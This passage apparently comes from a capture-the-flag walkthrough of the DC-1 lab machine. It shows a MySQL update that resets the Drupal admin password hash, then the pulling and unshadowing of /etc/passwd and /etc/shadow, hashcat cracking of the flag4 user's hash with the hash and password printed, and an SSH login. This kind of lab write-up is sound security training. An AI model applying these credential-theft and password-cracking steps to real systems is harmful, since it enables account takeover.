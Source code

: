 After Doing some Googling I found out how to change the admin password in the database 

[https://knackforge.com/blog/sivaji/different-ways-reset-drupal-admin-password](https://knackforge.com/blog/sivaji/different-ways-reset-drupal-admin-password)

within mysql i updated the password has for admin so the password is now **druapl**

{% highlight bash %}
mysql> UPDATE users SET name='admin', pass='$S$Drl0vgZ9yuU9uc4JyaTMHxMPriC7q/PsOUOx52fCrVQSTpI/Tu4x' WHERE uid = 1;
<Z9yuU9uc4JyaTMHxMPriC7q/PsOUOx52fCrVQSTpI/Tu4x' WHERE uid = 1;              
Query OK, 1 row affected (0.02 sec)
Rows matched: 1  Changed: 1  Warnings: 0
{% endhighlight %}

Boom I can now login as admin

Looking around the dashboard flag 3 was found

![alt text]({{ site.baseurl }}/assets/images/dc1/3.png)



### flag 4

{% highlight bash %}
pwd
/home/flag4

cat flag4.txt
Can you use this same method to find or access the flag in root?

Probably. But perhaps it's not that easy.  Or maybe it is?
{% endhighlight %}

There is a **flag4** user in /etc/passwd

after getting root I pulled down /etc/passwd and /etc/shadow

Unshadowed the file 

`unshadow passwd shadow > unshadow.txt`

Used **hashcat-gui** for a change to try and crack it - [https://hashkiller.co.uk/Tools/HashcatGUI](https://hashkiller.co.uk/Tools/HashcatGUI)

![alt text]({{ site.baseurl }}/assets/images/dc1/2.png)

user:	flag4
pass:	orange
$6$Nk47pS8q$vTXHYXBFqOoZERNGFThbnZfi5LN0ucGZe05VMtMuIFyqYzY/eVbPNMZ7lpfRVc0BYrQ0brAhJoEzoEWCKxVW80:orange

Now I can login to the box over ssh as the **fag 4** user 

{% highlight bash %}
ssh flag4@192.168.0.119 
flag4@192.168.0.119's password: 
Linux DC-1 3.2.0-6-486 #1 Debian 3.2.102-1 i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
flag4@DC-1:~$ uname -a
Linux DC-1 3.2.0-6-486 #1 Debian 3.2.102-1 i686 GNU/Linux
flag4@DC-1:~$ 
{% endhighlight %}
